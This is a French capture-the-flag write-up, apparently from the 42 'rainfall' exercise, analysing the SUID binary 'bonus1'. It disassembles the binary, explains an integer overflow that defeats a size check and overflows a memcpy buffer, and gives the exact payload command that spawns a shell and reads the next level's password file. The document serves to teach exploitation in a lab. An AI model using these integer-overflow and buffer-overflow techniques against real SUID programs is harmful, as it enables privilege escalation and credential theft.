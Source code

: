 ## Analyse
- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
  [...]
  ```
  - On a un binaire appartenant a bonus2 dans le home avec les droits SUID.

- `./bonus1`
  ```
  Segmentation fault (core dumped)
  ```
  - Le programme segfault sans arguments

- `./bonus1 test`
  ```
  ```
  - Le programme se termine sans rien afficher

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `info function`
    ```
    [...]
      0x08048424  main
    [...]
    ```
    - On ne trouve rien d'autre que la fonction main

  - `disas main`
    ```
    Dump of assembler code for function main:
       0x08048424 <+0>:     push   ebp
       0x08048425 <+1>:     mov    ebp,esp
       0x08048427 <+3>:     and    esp,0xfffffff0
       0x0804842a <+6>:     sub    esp,0x40
       0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
       0x08048430 <+12>:    add    eax,0x4
       0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
       0x08048435 <+17>:    mov    DWORD PTR [esp],eax
       0x08048438 <+20>:    call   0x8048360 <atoi@plt>
       0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
       0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
       0x08048446 <+34>:    jle    0x804844f <main+43>
       0x08048448 <+36>:    mov    eax,0x1
       0x0804844d <+41>:    jmp    0x80484a3 <main+127>
       0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
       0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
       0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
       0x0804845d <+57>:    add    eax,0x8
       0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
       0x08048462 <+62>:    mov    edx,eax
       0x08048464 <+64>:    lea    eax,[esp+0x14]
       0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
       0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
       0x08048470 <+76>:    mov    DWORD PTR [esp],eax
       0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
       0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
       0x08048480 <+92>:    jne    0x804849e <main+122>
       0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
       0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
       0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
       0x08048499 <+117>:   call   0x8048350 <execl@plt>
       0x0804849e <+122>:   mov    eax,0x0
       0x080484a3 <+127>:   leave  
       0x080484a4 <+128>:   ret    
    End of assembler dump.
    ```

  - <+0> ... <+6>
    - Initialisation de la mémoire (libère 64 octets pour la stack), alignement de la stack<br/><br/>
  - <+9>...<+25>
    - Prépare les arguments pour l'appel de atoi
    - Stocke le pointeur de argv (ebp+0xc) dans eax
    - Ajoute 4 pour atteindre argv[1]
    - Transfert la valeur de argv[1] dans EAX
    - Transfert la valeur de argv[1] (EAX) dans ESP
    - Appel atoi avec argv[1] en argument
    - Stocke le retour dans esp+0x3c<br/><br/>
  - <+29>...<+34>
    - Compare le retour du atoi avec la valeur 9
    - Si la valeur est inferieur ou egale a 9 on jump a l'instruction <main+43><br/><br/>
  - <+36>...<+41>
    - Met la valeur 1 dans eax pour la préparation du return(1)
    - Jump à l'instruction <main+127><br/><br/>
  - <+43>...<+79>
    - Prepare les arguments pour l'appel de memcpy
    - Stocke le retour de atoi dans EAX
    - Multiplie le retour de atoi (EAX) par 4 et le stocke dans ECX
    - Stocke argv dans eax
    - Ajoute 8 a argv pour arriver sur argv[2]
    - Stocke la valeur argv[2] (EAX) dans EAX
    - Stocke argv[2] (EAX) dans EDX
    - Met la valeur d'un pointeur sur l'espace aloué au debut qui se situe a ESP+14.
      Qui fait que nous donnons un pointeur sur un char * d'une taille de 0x3c(retour de atoi)- 0x14 (adresse char*) = 40.
    - Stocke le retour d'atoi * 4 (ECX) en 3eme argument du memcpy
    - Stocke argv[2] (EDX) en 2eme argument du memcpy
    - Stocke le pointeur sur le char[40] en premier argument du memcpy
    - Appel memcpy(char[40], argv[2],  a*4)<br/><br/>
  - <+84>...<+92>
    - Compare le retour de atoi (ESP+0x3c) avec la valeur 1464814662
    - Si le retour du atoi n'est pas egale avec cette valeur jump a <main+122><br/><br/>
  - <+94>...<+117>
    - Prepare les arguments pour l'appel de execl
    - Stocke 0 en 3eme argument de execl qui est equivalent a NULL comme execl prends des char en argument
    - `x/10s 0x8048580`
      ```asm
      0x8048580:       "sh"
      0x8048583:       "/bin/sh"
      ```
    - Stocke "sh" en 2nd argument
    - Stocke "/bin/sh" en 1er argument
    - Appel execl("/bin/sh", "sh", NULL)<br/><br/>
  - <+122>...<+128>
    - Return 0
    - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
## Exploit

Après analyse, nous comprenons que pour obtenir notre flag il faut donner en input un nombre dont la valeur doit être inférieure ou égale à 9. Plus loin, cette valeur doit être égale a 0x574f4c46 (1464814662).

Nous voyons aussi que le memcpy() n'est pas protegé en effet notre string b fait 40, et si notre argv[2] fait plus de 40 nous avons un SegFault. 

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `r -2 $(python -c 'print "A" * 44')`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0xb7f65ef5 in ?? () from /lib/i386-linux-gnu/libc.so.6
    ```
  - `info registers`
    ```
    (gdb) info registers
    eax            0xbfffff8a       -1073741942
    ecx            0xfffffddc       -548
    edx            0xbffffd80       -1073742464
    ebx            0xb7fd0ff4       -1208152076
    esp            0xbffffbc8       0xbffffbc8
    ebp            0xbffffc18       0xbffffc18
    esi            0x0      0
    edi            0x0      0
    eip            0xb7f65ef5       0xb7f65ef5
    eflags         0x210282 [ SF IF RF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    ```

b fait une taille de 40 et en reecrivant jusqu'a 44 nous réécrivons a.
Pour avoir notre shell notre a doit valoir 0x574f4c46 (1464814662), ca sera donc notre second argument:
```c
$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

Maintenant le souci que nous avons est que la taille copiée par notre memcpy est de maximum 9 * 4 = 36 mais de notre côté nous voulons copier une taille de 44.

Un nombre negatif multiplié par 4 donne toujours un nombre negatif, cependant nous sommes en presence d'integer et nous avons :

**INT_MIN**  = -2147483647 - 1
**INT_MAX** = 2147483647

La raison de cette difference est la présence d'un bit de signe et nous pouvons abuser de cette particularité pour avoir une valeur supérieure à int min ce qui va passer tous les bit a 1 dont le bit de signe: c'est un [integer overflow](https://fr.wikipedia.org/wiki/D%C3%A9passement_d%27entier). 

Nous utilisons donc [le code python suivant](https://stackoverflow.com/questions/47100105/forcing-integer-overflow-in-python) pour forcer le cast en int et trouver la valeur avec laquelle nous obtenons un integer overflow pour avoir la valeur 44.
```python
>>> print((-2147483637*4) % 2**32)
44
```

- `./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`
  ```
  ```
  - `whoami`
    ```
    bonus2
    ```
  - `cat /home/user/bonus2/.pass`
    ```
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    ```
